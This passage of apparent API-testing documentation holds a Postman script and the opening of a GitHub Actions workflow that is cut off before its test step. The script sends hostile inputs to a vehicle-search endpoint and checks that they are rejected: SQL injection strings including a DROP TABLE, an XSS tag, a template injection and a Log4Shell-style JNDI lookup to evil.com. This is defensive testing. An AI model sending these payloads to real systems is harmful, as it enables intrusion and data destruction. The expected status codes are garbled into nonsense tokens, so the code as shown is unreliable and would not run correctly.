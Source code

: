
### Input Validation Testing

#### SQL Injection Prevention
```javascript
pm.test("SQL injection prevention", function() {
    const maliciousInputs = [
        "'; DROP TABLE vehicles; --",
        "1' OR '1'='1",
        "UNION SELECT * FROM users",
        "<script>alert('xss')</script>",
        "{{7*7}}",
        "${jndi:ldap://evil.com/x}"
    ];
    
    maliciousInputs.forEach(input => {
        pm.sendRequest({
            url: pm.variables.get('base_url') + '/vehicles/search',
            method: 'GET',
            query: {
                q: input
            },
            header: {
                'Authorization': 'Bearer ' + pm.globals.get('auth_token')
            }
        }, function(err, response) {
            pm.test(`SQL injection blocked for input: ${input}`, function() {
                pm.expect(response.code).to.be.oneOf([4AUTOMOTIVE_MANUFACTURERAUTOMOTIVE_MANUFACTURER, 4AUTOMOTIVE_MANUFACTURER3]);
                pm.expect(response.text()).to.not.include('database');
                pm.expect(response.text()).to.not.include('mysql');
                pm.expect(response.text()).to.not.include('postgresql');
            });
        });
    });
});
```

## Automated Test Execution

### CI/CD Integration

#### GitHub Actions Workflow
```yaml
name: API Testing Pipeline

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

jobs:
  api-tests:
    runs-on: ubuntu-latest
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Install Newman
      run: npm install -g newman newman-reporter-htmlextra
    
    - name: Run REST API Tests
```